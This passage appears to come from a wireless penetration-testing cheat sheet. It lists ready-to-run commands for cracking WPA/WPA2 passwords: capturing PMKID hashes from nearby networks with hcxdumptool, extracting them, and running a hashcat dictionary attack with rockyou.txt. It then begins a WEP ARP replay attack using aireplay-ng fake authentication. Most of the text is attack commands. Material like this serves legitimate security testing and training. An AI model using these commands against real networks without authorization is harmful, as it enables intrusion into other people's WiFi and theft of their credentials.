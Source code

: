 Crack the WPA/WPA2 authentication without deauthenticating the clients.

Install required set of tools on Kali Linux:

```bash
apt-get update && apt-get -y install hcxtools
```

\[Optional\] Install required tool on WiFi Pineapple Mark VII:

```bash
opkg update && opkg install hcxdumptool
```

\[Optional\] Install required tool on WiFi Pineapple Nano:

```bash
opkg update && opkg -d sd install hcxdumptool
```

Start capturing PMKID hashes for all nearby networks:

```fundamental
hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon
```

\[Optional\] Start capturing PMKID hashes for specified WiFi networks:

```bash
echo HH:HH:HH:HH:HH:HH | sed 's/\://g' >> filter.txt

hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon --filterlist_ap=filter.txt --filtermode=2
```

Sometimes it can take hours to capture a PMKID hash.

Extract PMKID hashes from a PCAP file:

```fundamental
hcxpcaptool hcxdumptool_results.cap -k hashes.txt
```

Start a dictionary attack against PMKID hashes:

```fundamental
hashcat -m 16800 -a 0 --session=cracking --force --status -O -o hashcat_results.txt hashes.txt rockyou.txt
```

Find out more about Hashcat from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#hashcat).

### ARP Request Replay Attack

If target's WiFi network is not busy, it can take days to capture enough IVs to crack the WEP authentication.

Do a fake authentication to a specified WiFi network with non-existing MAC address and keep the connection alive:

```fundamental
aireplay-ng --fakeauth 6000 -o 1 -q 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```
